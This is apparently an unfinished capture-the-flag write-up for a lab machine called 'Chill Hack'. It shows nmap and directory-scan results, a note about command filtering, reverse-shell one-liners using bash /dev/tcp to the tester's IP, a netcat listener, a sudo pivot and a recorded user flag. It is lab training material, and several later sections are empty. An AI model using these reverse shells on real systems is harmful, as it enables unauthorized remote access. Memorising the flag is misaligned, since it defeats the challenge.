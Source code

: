 # Chill Hack

* IP = 10.10.175.103

## Enumerating And Scanning:

* Nmap scan to discover open ports:
`nmap -sC -sV -vv $IP`
* **Nmap Scan Results:**
```bash
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.4.50.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDcxgJ3GDCJNTr2pG/lKpGexQ+zhCKUcUL0hjhsy6TLZsUE89P0ZmOoQrLQojvJD0RpfkUkDfd7ut4//Q0Gqzhbiak3AIOqEHVBIVcoINja1TIVq2v3mB6K2f+sZZXgYcpSQriwN+mKgIfrKYyoG7iLWZs92jsUEZVj7sHteOq9UNnyRN4+4FvDhI/8QoOQ19IMszrbpxQV3GQK44xyb9Fhf/Enzz6cSC4D9DHx+/Y1Ky+AFf0A9EIHk+FhU0nuxBdA3ceSTyu8ohV/ltE2SalQXROO70LMoCd5CQDx4o1JGYzny2SHWdKsOUUAkxkEIeEVXqa2pehJwqs0IEuC04sv
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFetPKgbta+pfgqdGTnzyD76mw/9vbSq3DqgpxPVGYlTKc5MI9PmPtkZ8SmvNvtoOp0uzqsfe71S47TXIIiQNxQ=
|   256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKHq62Lw0h1xzNV41zO3BsfpOiBI3uy0XHtt6TOMHBhZ
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 7EEEA719D1DF55D478C68D9886707F17
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Game Info
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

* FTP Anonymous login is permitted i.e. Login to FTP server with `anonymous` username and no password is allowed.
*

```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

```
=====================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
/secret (Status: 301)
/server-status (Status: 403)
=====================================================
2022/07/30 19:12:47 Finished
=====================================================
```
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

## Exploitation/Gaining Access:

`bash -i >& /dev/tcp/10.4.50.128/7777 0>&1`
`/bin/bash -c '/bin/bash -i >& /dev/tcp/10.4.50.128/7777 0>&1'`
`nc -lnvp 7777`
`sudo -u apaar /home/apaar/.helpline.sh`
`netstat -anlp | grep LISTEN`

## Post Exploitation

## Privilege Escalation

## Questions/Tasks:

1. User Flag:

**Ans-{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}**

2. Root Flag:

**Ans-**

